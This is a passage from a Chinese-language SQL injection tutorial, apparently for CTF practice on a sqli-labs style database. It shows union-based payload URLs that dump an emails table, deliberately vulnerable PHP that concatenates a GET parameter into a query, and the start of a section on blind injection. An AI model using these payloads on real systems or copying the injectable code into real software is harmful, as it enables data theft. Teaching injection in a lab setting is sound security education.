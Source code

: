 7）获取数据

（1）方法一：

获取数据，以emails表为例，2,3位置分别修改为：

```csharp
(select id from security.emails limit 0,1),(select email_id from security.emails limit 0,1)
```

获取emails表第一，第二条数据：

```basic
1 : Dumb@dhakkan.com

2 : Angel@iloveu.com
```

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,(select id from security.emails limit 0,1),(select email_id from security.emails limit 0,1)
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003031.png)
（2)方法二：

以emails表为例，一次性获取所有数据：

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,group_concat(char(32,58,32),id,email_id),3 from security.emails
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003047.png)

1.2 union注入PHP代码

```php
<?php
$con=mysqli_connect("localhost","root","root","security");
mysqli_set_charset($con,'utf8');
if(!$con){
	echo "Connect failed : ".mysqli_connect_error();
}
 
$id=$_GET['id'];
$result=mysqli_query($con,"select * from users where id=".$id );
$row=mysqli_fetch_array($result);
echo $row['username']." : ".$row['password'];
?>
```

## 基于布尔的SQL盲注

| 普通SQL注入                                                  | SQL盲注                                                      |
| :----------------------------------------------------------- | :----------------------------------------------------------- |
| 执行SQL注入攻击时，服务器会响应来自数据库服务器的错误信息，信息提示SQL语法不正确等 | 一般情况，执行SQL盲注，服务器不会直接返回具体的数据库错误or语法错误，而是会返回程序开发所设置的特定信息（也有特例，如基于报错的盲注） |
| 一般在页面上直接就会显示执行sql语句的结果                    | 一般在页面上不会直接显示sql执行的结果                        |
